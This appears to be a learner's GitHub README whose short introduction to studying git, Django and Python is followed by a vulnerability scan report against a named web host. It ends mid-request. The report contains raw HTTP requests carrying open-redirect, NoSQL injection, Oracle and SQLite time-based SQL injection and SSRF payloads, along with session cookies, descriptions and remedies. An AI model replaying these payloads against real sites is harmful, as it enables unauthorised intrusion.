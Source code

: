 # hello-world
Software Engineering Tech exercise with git, django and python
**This is Amoo Olukunle. I am trying to create a new me in software engineering profession**
*The journey is rough and tough, but the destinition is glorious*
>Though time never last, but though people do
>There are so many things to learn in the program
1. Code skill
2. Collaboration
3. Programming
4. Software development
>There are so many tasks to do
- [] Learn github
- [] Learn Django
- [] Learn Python.
 >
You would like to visit the following website for more information, visit
[Django Tutorial](https://www.djangotutorial.com)
[Git Tutorial](https://www.githubtutorial.com)
[Python Tutorial](https://www.pythontutorial.com)
[^1]: This is the beginnig of a great thing.


| S/N | Risk                                    | URL                                                                                                                                                                                  | Attack                                                                                                                                                                                                                                                                                                                                                                           | Request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Response                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             | Solution                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| -- | --------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1  | External Redirect                       | [https://security.unionworx.cloud/account/information/notifications](https://security.unionworx.cloud/account/information/notifications)                                             | [http://6708871227364033168.owasp.org](http://6708871227364033168.owasp.org/)                                                                                                                                                                                                                                                                                                    | POST https://security.unionworx.cloud/password/email HTTP/1.1<br>host: security.unionworx.cloud<br>user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 OPR/102.0.0.0<br>pragma: no-cache<br>cache-control: no-cache<br>content-type: application/x-www-form-urlencoded<br>referer: http://6873829442880229062.owasp.org<br>content-length: 75<br>Cookie: XSRF-TOKEN=eyJpdiI6InVvR2hYaUNlQ1NuRHVROEFFQUlmWEE9P<br>SIsInZhbHVlIjoic0Y3MlRmM1JjWVA2alBtbEg0Q3ljU0hNY24xTnVGR<br>mtnODdwSlQ4a3dzcVdyTUlqZWZjQ1ZrMzFoVngxQUJIV29pRktuT2V6U0ZPNjRiRlg4Y2N5dGxLSVBoVEljSXp<br>BWHhGdmFrcmd3TFhXbXBFVHJkcm9oL0ZJelloTUdMa0QiLCJtYWMiOiJmZDY5MzJjNWEyZTg4ZTdhM2RmYz<br>hlMDI2NzJhOTI3OWQzNDY0YzUzNGM0ZmQwOTZlMjBlMDMwODc2NWU1ZjRhIiwidGFnIjoiIn0%3D;<br> ibew_test_22_union_worx_session=eyJpdiI6IlRIWWJmRmlLS1g0K3NrdStIekx4NkE9PSIsI<br>nZhbHVlIjoiRU5hUHBUTDN3VW8vbDV5RHliSnNoSlBWT1A5TE9NSmlHc1dBeDExMHFLa0MzSG<br>N5ZjFLTFc5TzVVS2psb2RRcFkzcFVnS3JtRjJCTERHcm41dVozOXNYRzgvQ0ZnVXd<br>JeHp1SGVJN2dVeWx3NTAzMWVXRlhZRFN4dHVvUm51R3AiLCJtYWMiOiJlZmJl<br>YjM1MTQ1MTJiYjRkMTVmNTZjYWJmODM2MGIwOTI5OTUzMzJjYzU3ZjkyZWZmNjEzNTcxNDc0ZmU2MGFmIiwidGFnIjoiIn0%3D<br>                                                                                                                                                                                                                                                                                                                                                                                                               | HTTP/1.1 302 Found<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Cache-Control: no-cache, private<br>Date: Mon, 25 Mar 2024 20:58:01 GMT<br>Location: http://6873829442880229062.owasp.org<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6IlBQcFNkUVpQRExPUjNpZUNuUjBVT3c9PSI<br>sInZhbHVlIjoiZ0MwTkVLeEVlZ01MZ3hvdEpWK2o4WFMzV3hrUkp3V2F2REx5OU9x<br>WnRoVklNbTFCQjU5NlliZkFLbTZzWkpFekEzVzR6QnFScmUwc1FqdmZFRVphUG5XR3NsRk9jaER5bWpQY0RzdWVNMWd2e<br>UdKTHdSNEMwdGdSZFV0bHA4OHkiLCJtYWMiOiI1MWYzMjE3YzQwNDQ5MWRiNGN<br>mNTA2YWFiNjE5NjI1ZGJiYWQxNTQ3N2UzYzA3NDM4NWVlZTVmN2Q5M2FmZjFjIiwidGFnIjoiIn0%3D; <br>expires=Mon, 25 Mar 2024 22:58:01 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie:<br> ibew_test_22_union_worx_session=eyJpdiI6Ik9oaEdvMlBUOXhrMGJja3A5TjJYMUE9<br>PSIsInZhbHVlIjoiVU12YnJLZXBYQnlJSTFGa2tqeUJOYTE5Qjl3TTZscWd2MGxtSlYvNUNmdDkrb2x<br>UNENNZ2lDc3FzTHZCR1lQZHFFVjluaGFDY3p1Y1ZSaWpSWFpEdkpwN2lIVTEzcn<br>duSmowL0pDZ2JJZDNKeWk1OWI1YU1rNWk3<br>WGlXMXF0NlAiLCJtYWMiOiIwNzdhMDAzYzFmOGY5MjRiZmJhMmZhMThiZjk2MWFjNjAwNDA2<br>NDZjZmJhMjJhMzcxZjAyYmEyNzg1Zjc0YzlmIiwidGFnIjoiIn0%3D; <br>expires=Mon, 25 Mar 2024 22:58:01 GMT; Max-Age=7200; path=/; httponly; samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 390                                | URL redirectors represent common functionality employed by web sites to forward an incoming request to an alternate resource.<br> This can be done for a variety of reasons and is often done to allow resources to be moved within the directory structure <br>and to avoid breaking functionality for users that request the resource at its previous location. <br>URL redirectors may also be used to implement load balancing, leveraging abbreviated URLs <br>or recording outgoing links. It is this last implementation which is often used in phishing attacks as described in the example below. <br>URL redirectors do not necessarily represent a direct security vulnerability but can be abused by <br>attackers trying to social engineer victims into believing that they are navigating to a site other than the true destination.      <br>The response contains a redirect in its Location header which allows an external Url to be set.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | Assume all input is malicious. Use an "accept known good" input validation strategy, i.e., use an allow list of acceptable inputs that strictly conform to specifications. Reject any input that does not strictly conform to specifications, or transform it into something that does. Do not rely exclusively on looking for malicious or malformed inputs (i.e., do not rely on a deny list). However, deny lists can be useful for detecting potential attacks or determining which inputs are so malformed that they should be rejected outright.                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 2  | NoSQL Injection - MongoDB               | https://security.unionworx.cloud/                                                                                                                                                    | favicon.ico[$ne]                                                                                                                                                                                                                                                                                                                                                                 | GET https://security.unionworx.cloud/ HTTP/1.1<br>host: security.unionworx.cloud<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0)<br> Gecko/20100101 Firefox/123.0<br>Accept: image/avif,image/webp,\*/\*<br>Accept-Language: en-US,en;q=0.5<br>Referer: https://security.unionworx.cloud/login<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6IkVWdlB4WHFOcUNBcXIzNkU0UnBHWnc9PSIsInZhbHVlIjoiQXJuVVM4OVF6TlBxU<br>3dvVDAvWUVtTjV1dnpsS1pSWTlKSyswMTlPdUJTRUlOSklNbWc4dUozZkE1STFETUIxdHRKTlhucUpIekhGZkxpclhQMVgzd<br>nh0Um9OV3lZSHNhcllPVkdobXVZUW1LTytPVE9acVlJd1U1RVhCTldobmYiLCJtYWMiOiIyZmJkMTBlY2I2ZTM3YjQyYTgwMjkxOWUyNTU4OWM5NzhhYzQxNTYwOTRmMjk3MjZiODBlYWIwYTc5Y2UzOTdhIiwidGFnIjoiIn0%3D;<br> ibew_test_22_union_worx_session=eyJpdiI6IkdYd0VJVnpxZGRpc0RHbis3Uy92M1E9PSIs<br>InZhbHVlIjoieVlPdmlnYzlvOGp5YzF3VUtqSWJKQUl5b3ZoenN3WXJpMEhzTkM0RDhuOVVqUjdYNktQMEJPWkIwdXErZjlmS2pw<br>bVl2VW1CKy9vakNSUWMyYVFCTzJVMjRhTFRtRFRabFlDcDgzd2lBa2FHQndlUm5QU1dUU<br>lpDQUF5bzVpb3YiLCJtYWMiOiIyZmZkMGIwZmRiYjU0MTBkYzQyNmNjNTNiMjc1ZjhjN2Y0MjViOTU4MWQ1NGJjOTY0YWM1NTM3ZDc1NzM3ZDgxIiwidGFnIjoiIn0%3D<br>Sec-Fetch-Dest: image<br>Sec-Fetch-Mode: no-cors<br>Sec-Fetch-Site: same-origin<br>                                                                                                                                                                                                                                                                                                                                                                                                          | HTTP/1.1 200 OK<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Vary: Accept-Encoding<br>Cache-Control: no-cache, private<br>Date: Mon, 04 Mar 2024 08:30:41 GMT<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6InZFT0hBQm16UVBnN3ZRbVd0M29RQXc9PSIsInZhbHVlIjoiSzJxT1lYe<br>UwzS1BnZ3BtUU52RHdzOFhYcjBNUTJKTk14b09TM01UK3Y4bTZsZUYvcWczTXV6b0JXYmxTNWM2VVE3M3p2WmJzMTBpUmZ<br>DQ1dod0RaZGNveGppUGpFc2RwSkMxb2VWNWNiM3R5WU1BSXhoY2psL0VWU050cVdPWkciLCJtYWMiOiI4NTM0MzFjNzNkYWQ4M2U<br>0MWIxNDc0YmFlNDlkYTgyYWM3YjE4M2RiOTRlNzNlN2EwY2M2ZWVlZGNiMGU0NDIwIiwidGFnIjoiIn0%3D; <br>expires=Mon, 04 Mar 2024 10:30:41 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie: ibew_test_22_union_worx_session=eyJpdiI6ImY4Wmtqa2tmL1RjeFhkMGhBZFYxdmc<br>9PSIsInZhbHVlIjoibW1iUTRUZmJUM29VWUNqVHFDdkNkWE13Uk96WU9DOVlUdjI3d1FsbVl3bzhwMXFra05<br>5dTJIaXAxeHJaMG9YMUdwanBIbGcrakgyRHpEMVF6YTRxdy8xNkJWWW5XMG14MVMyZnlwSUVHLzAyRXVIVzdZK1hEL1hWRGNnQ29tYU8iLCJtYW<br>MiOiIxYTZkN2Q5ZTQ0YTVhNTQ3MzUxZmM2NDBmYTE5OGE4ZmUyNWI0Y<br>2E3MWU3NmNhOTQyY2Q5YmNiNzBmNjdlOWMxIiwidGFnIjoiIn0%3D; expires=Mon, 04 Mar 2024 10:30:41 GMT; Max-Age=7200; path=/; httponly; samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 33888<br>                                                      | MongoDB query injection may be possible.                                                   <br> In some PHP or NodeJS based back end implementations, in order to obtain sensitive data it is possible to <br>inject the "[$ne]" string (or other similar ones) that is processed as an associative array rather than <br>a simple text.<br>Through this, the queries made to MongoDB will always be true.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          | Do not trust client side input and escape all data on the server side.<br>Avoid to use the query input directly into the where and group clauses and upgrade all drivers at the latest available version.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 3  | SQL Injection - Oracle - Time Based     | [https://security.unionworx.cloud/img/home/hero-bg-1-lg.png](https://security.unionworx.cloud/img/home/hero-bg-1-lg.png)                                                             | field: [Accept], value [image/avif,image/webp,\*/\* and exists (SELECT  UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.5') from dual) -- ] | GET https://security.unionworx.cloud/img/home/hero-bg-1-lg.png HTTP/1.1<br>host: security.unionworx.cloud<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: image/avif,image/webp,\*/\* and exists (SELECT  UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.5') from dual) --<br>Accept-Language: en-US,en;q=0.5<br>Referer: https://security.unionworx.cloud/resources/css/main.css?id=ad4a6397d15fe88f1f651f12fb7f52ad<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6IkNKSHBvSXpxenpHWVpvN1JZUlFZUUE9PSIsInZhbHVlIjoiYW9sTmZNS2ZFZC9CN1pWcXFoT1hoeG5rOFdYUUI2di9pT1FPZWtSeU<br>NjWFZnNVpQcUtPNUdXUXdpS0kvbU44SjVsamUydHVaQ0xZa2x3cXUxR1RaNCtKQ1lSR0J0aEJLVFZ2eTRFdklPUnhWbFkyUlFKMVp<br>rSXpYYnJ1RTJsWjUiLCJtYWMiOiJhYzlkNmQ0M2ZmMzg5N2EwYTc5ZDQwYjcwYTI4ZjUyNjJjMzQ3MTA1OGI1YjVkMmYxMDE5N2RhYjQxOTMwMDFmIiwidGFnIjoiIn0%3D;<br> ibew_test_22_union_worx_session=eyJpdiI6IjVuQU1SZTFFVDdDeUFRdVRKemF3bkE9PSIsInZhbHVlIjoiV3JpNHE<br>xKy9xcmdZa1dOWjFCZWhuS1JBV3h4UkFsVTdPY1hvZE01bVcvOUhUdXoxc2h6VWUyc0pLZ045S2hMRW91eXNGL2VIcWFvVHYxQ1B1bkk1RWNicHc<br>4OHJLd1NTT05tNUZEd0czU0Zua0VQOUowelBtZUlkVG4rK2xIcWciLCJtYWMiOiI4ZT<br>IyMGY3NzE5NzcwZDg5NzUzODBkMDFjNjIwYWE3ZTkxNDg0NjVkZTc5YjNlNjU4ZmU2Mjg0NGU0OWNkZGQ1IiwidGFnIjoiIn0%3D<br>Sec-Fetch-Dest: image<br>Sec-Fetch-Mode: no-cors<br>Sec-Fetch-Site: same-origin<br> | HTTP/1.1 200 OK<br>Server: nginx<br>Date: Mon, 04 Mar 2024 15:19:17 GMT<br>Content-Type: image/png<br>Content-Length: 4378350<br>Last-Modified: Sat, 02 Mar 2024 02:01:32 GMT<br>Connection: keep-alive<br>ETag: "65e2887c-42ceee"<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>Accept-Ranges: bytes<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | SQL injection may be possible. The query time is controllable using parameter value <br>[image/avif,image/webp,\*/\* and exists (SELECT  UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.3') from dual<br> union SELECT  UTL_INADDR.get_host_name('10.0.0.4') <br>from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.5') from dual) -- ], <br>which caused the request to take [8,459] milliseconds,<br> when the original unmodified query with value [image/avif,image/webp,\*/\*] took [422] milliseconds                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Do not trust client side input, even if there is client side validation in place.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 4  | SQL Injection - SQLite                  | [https://security.unionworx.cloud/resources/js/back-end/vendor/jquery-ui/jquery-ui.min.js]<br>(https://security.unionworx.cloud/resources/js/back-end/vendor/jquery-ui/jquery-ui.min.js) | case randomblob(10000000) when not null then 1 else 1 end                                                                                                                                                                                                                                                                                                                        | GET https://security.unionworx.cloud/resources/js/back-end/vendor/jquery-ui/jquery-ui.min.js HTTP/1.1<br>host: security.unionworx.cloud<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: \*/\*<br>Accept-Language: en-US,en;q=0.5<br>Referer: https://security.unionworx.cloud/account/information/general<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6InJjQ1BZdXdUQWtwR3o5OGFJcXFOQ2c9PSIsInZhbHVlIjoiT29Q<br>OHVCbVc4bWllRlBQT1E1THViOWx6WnRlYUFJZW80VXdrNXlJOXpIaHRLcktyaDFpNkdleEZoQ01EU0hQRDJRcFJtamo5TlZkSm42WFlRakx<br>SbzVXYWFRYmUrVDAyZGpwQ3ZmSThmV1ZzNWZLMzA1UEJ6NnprTXNzNE51MnkiLCJtYWMiOiJjZjZhYjRiZjE1ZDExOThhNmYzM2ZjMmIyNTBmMWJ<br>kZjcyODMyY2JiZjkyYzM4NzY1NGRjYWUzZDhmOTA4OWM0IiwidGFnIjoiIn0%3D;<br>ibew_test_22_union_worx_session=eyJpdiI6IkhTOWFma2VvMSswVHQ4OTBBR3lFQmc9PSIsInZhbHVlI<br>joiTHVuNGIrT1BPVjZlUkdzTUFKcysvd216ZlgxemhmSVhRenlwdjRzSER5bWRSYkNSelYyTUM2RXpFRjJG<br>N1N5OTN6aUQ5UTdZZ3haSFc5bkZEbm5kQ0FzNGlWZmZ6TkVQTDZsYXplZnlGUi9ZVERuMzRkRWpvdE<br>5NNDh2azZPaTEiLCJtYWMiOiIxMDViNWE5NGUyYTc5MWZiZmNiZDhhYjQwMTI3NjMyZWQ3YTExYmRjOGFiYzAxMTFiNmE5NWIxYWE4MGUz<br>YjBhIiwidGFnIjoiIn0%3D; \_ga=GA1.2.10702593.1709819271; \_gid=GA1.2.2119953206.1709819271; \_gat_gtag_UA_132022492_1=1<br>Sec-Fetch-Dest: script<br>Sec-Fetch-Mode: case randomblob(1000000) when not null then 1 else 1 end<br>Sec-Fetch-Site: same-origin<br>                                                                                                                                                                                                 | HTTP/1.1 200 OK<br>Server: nginx<br>Date: Thu, 07 Mar 2024 21:31:51 GMT<br>Content-Type: application/javascript; charset=utf-8<br>Content-Length: 36675<br>Last-Modified: Sat, 02 Mar 2024 02:01:32 GMT<br>Connection: keep-alive<br>Vary: Accept-Encoding<br>ETag: "65e2887c-8f43"<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>Accept-Ranges: bytes<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | SQL may be possible. The query time is controllable using parameter value <br>[case randomblob(10000000) when not null then 1 else 1 end ], which caused the request to <br>take [471] milliseconds, parameter value [case randomblob(100000000) when not null then 1 else 1 end ], <br>which caused the request to take [646] milliseconds, when the original unmodified query with value [ZAP] took [360] milliseconds.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              | Do not trust client side input, even if there is client side validation in place.<br>In general, type check all data on the server side.<br>If the application uses JDBC, use PreparedStatement or CallableStatement, with parameters passed by '?'                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 5  | Server Side Request Forgery             | [https://security.unionworx.cloud/password/email](https://security.unionworx.cloud/password/email)                                                                                   | [http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d](http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d)                                                                                                                                                                                                                                               | POST https://security.unionworx.cloud/password/email HTTP/1.1<br>host: security.unionworx.cloud<br>user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 OPR/102.0.0.0<br>pragma: no-cache<br>cache-control: no-cache<br>content-type: application/x-www-form-urlencoded<br>referer: http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d<br>content-length: 75<br>Cookie: XSRF-TOKEN=eyJpdiI6IkJ0c0ZEZVpqbFphcGVGL0tZSWRDbUE9PSIsInZ<br>hbHVlIjoiNm42TzkwVTRJYjFMZ0F4NEwrTnZtcXBYT0RVcDRtT2dRb2RDTFU3QXE5eXJMY1M2Y2tMWFlXSmhnd3RUWXA1TGE<br>raWI3dEZjTWFiQlBtbU9SRmEyYmYvcEFybXNiTVlnOVBIV00vYlphTHo0YWxQUE1LZjJ1W<br>kRZdUFwU3dyc1IiLCJtYWMiOiJlYmM1NGI1NTM5YTA3Y2NhZTJkNzEyNGFkZjliYmQ2Y<br>2IxOThkOTM3NjhlM2ZiMzE5Y2E3YjMwNTNmM2UxYTUzIiwidGFnIjoiIn0%3D;<br> ibew_test_22_union_worx_session=eyJpdiI6Im16c0w3TnBkdWRjUnds<br>ZmYvdVk0Snc9PSIsInZhbHVlIjoieFVRVmQzdWtpdnM0TWg2S2F1TkRma01QbTJQYVJoTm9lSFBUVWFqQ2dLbm5wS2l<br>hSVljSUlBL1Y5UUI5SlBGNjMyZEtnWTFEcndTOUtXeTVobnNYcnJTWGJFYmhQcW52N09<br>hbitsbnJJbmFYOS8xZ1NOdkhlZkVkZGw1MEh1WnEiLCJtYWMiOiJjZDM2ZTJhZGZiNzA4ZT<br>Q2OGIwZmNjNDQ0MDg1MmY0MTk2YTdmYjM1NTNmODdlOGRmMjUzZjEzZTM3MjY5MDk2IiwidGFnIjoiIn0%3D<br>                                                                                                                                                                                                                                                                                                                                                                                    | HTTP/1.1 302 Found<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Cache-Control: no-cache, private<br>Date: Thu, 07 Mar 2024 17:22:28 GMT<br>Location: http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6IkcxWlNwQ3l5clB6dU5PM1NvblVnRlE9PSIs<br>InZhbHVlIjoid0M4ZmtIM0l5WWVCWGpTMDUrdWNnU1pRTExqa0FBY2toVTgyWjN6UGpmaTA1aHN2bFduT1Q0RzRibF<br>hnSkJxc1NKdDFML1NpNFRDWUxLaCtkYWh0Z3BETVhRMVVYQUl1USs2QjhNTHZyazlNc2d2Tjg<br>5YXlEOUdQcW94VkRNY2kiLCJtYWMiOiJiOGNhZmNiYTA2MWMwM2FjOWI2YTJlOWZlMDg4<br>Y2Y0OWE2N2VhNWFlYjI2M2Q1NjA1MWQ3NzNiMzczY2JlMGI0IiwidGFnIjoiIn0%3D;<br> expires=Thu, 07 Mar 2024 19:22:28 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie: ibew_test_22_union_worx_session=eyJpdiI6IjN6NW9nRm1IL20wV<br>01OcVh6L2lrd3c9PSIsInZhbHVlIjoibE5IK1Y1cC9DSWRVYTFEMzFFMHVDNjZlclBENnVNc2dZTFk1QVo0S2hH<br>ZUZxK3JpM01FMWx6MTdqb1VnUExCcm5DV2lFU1BGUmpqQnl5NEZPMGc1RkxjQWRnS1pjQ0E4NlM2VmRqeGg<br>rNVNpY2RkcWFEZ0JuNi9OVE5VMWdiTDIiLCJtYWMiOiJhZjQxNTMxMTYyNWM3YWNhZmI2MjRiOTZlOTA<br>3YjlhN2UzYjQ2ZDdkYWM2ODAzOTkxOGFkNTdkNDQ1ODZkMGZhIiwidGFnIjoiIn0%3D;<br> expires=Thu, 07 Mar 2024 19:22:28 GMT; Max-Age=7200; path=/; httponly; samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 498<br> | The web server receives a remote address and retrieves the contents of this URL,<br> but it does not sufficiently ensure that the request is being sent to the expected destination. Received out-of-band interaction <br>[GET http://192.168.153.1:60742/f215f864-41c1-4036-8b4b-52f367751619 HTTP/1.1]<br>Request<br>GET http://192.168.153.1:60742/f215f864-41c1-4036-8b4b-52f367751619 HTTP/1.1<br>host: 192.168.153.1:60742<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8<br>Accept-Language: en-US,en;q=0.5<br>Referer: http://192.168.153.1:60742/f215f864-41c1-4036-8b4b-52f367751619<br>Origin: https://security.unionworx.cloud<br>Connection: keep-alive<br>Cookie: 